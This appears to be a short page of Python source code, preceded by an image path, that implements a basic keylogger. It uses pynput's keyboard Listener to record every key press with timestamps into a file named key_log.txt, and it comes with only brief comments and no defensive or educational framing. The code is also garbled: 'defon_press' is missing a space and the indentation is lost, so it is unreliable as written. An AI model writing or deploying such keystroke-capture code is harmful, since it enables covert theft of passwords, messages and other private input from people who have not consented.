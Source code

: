 from pynput.keyboard import Key,Listener
import logging
#if no name it gets into an empty string
log_dir=""
#This is basic logging function
logging.basicConfig(filename=(log_dir+"key_log.txt"),level=logging.DEBUG,
format='%(asctime)s:%(message)s:')
#This is from the library
defon_press(key):
logging.info(str(key))
#This says,listener is on
with Listener(on_press=on_press) as listener:
listener.join()
